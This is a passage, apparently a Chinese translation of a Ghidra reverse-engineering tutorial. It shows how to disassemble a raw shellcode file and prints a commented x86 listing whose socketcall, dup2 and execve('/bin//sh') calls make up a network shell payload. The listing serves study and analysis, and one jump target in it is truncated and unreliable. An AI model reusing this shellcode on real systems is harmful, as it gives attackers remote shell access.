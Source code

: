*图 17-12：加载（或分析）shellcode 文件后的 CodeBrowser 窗口*

右键点击文件中的第一个地址，并从上下文菜单中选择**Disassemble**（快捷键 D）。在 Listing 窗口中，我们现在看到一些可以操作的内容——一系列指令！列表 17-2 显示了反汇编后的指令，以及我们在文件分析后得到的结果。行末注释记录了一些关于这个简短文件的分析内容。

```
0000002b  INC    EBX

0000002c  MOV    AL,0x66       ; 0x66 is Linux sys_socketcall

0000002e  INT    0x80          ; transfers flow to kernel to

                               ; execute system call

 00000030  XCHG   EAX,EBX

00000031  POP    ECX

        LAB_00000032             XREF[1]:  00000038(j)

00000032  PUSH   0x3f          ; 0x3f is Linux sys_dup2

00000034  POP    EAX

00000035  INT    0x80          ; transfers flow to kernel to

                               ; execute system call

00000037  DEC    ECX

00000038  JNS   LAB_00000

0000003a  PUSH   0x68732f2f    ; 0x68732f2f converts to "//sh"

0000003f  PUSH   0x6e69622f    ; 0x6e69622f converts to "/bin"

00000044  MOV    EBX,ESP

00000046  PUSH   EAX

00000047  PUSH   EBX

00000048  MOV    ECX,ESP

0000004a  MOV    AL,0xb        ; 0xb is Linux sys_execve which

                               ; executes a specified program

0000004c  INT    0x80          ; transfers flow to kernel to

                                      ; execute system call
```

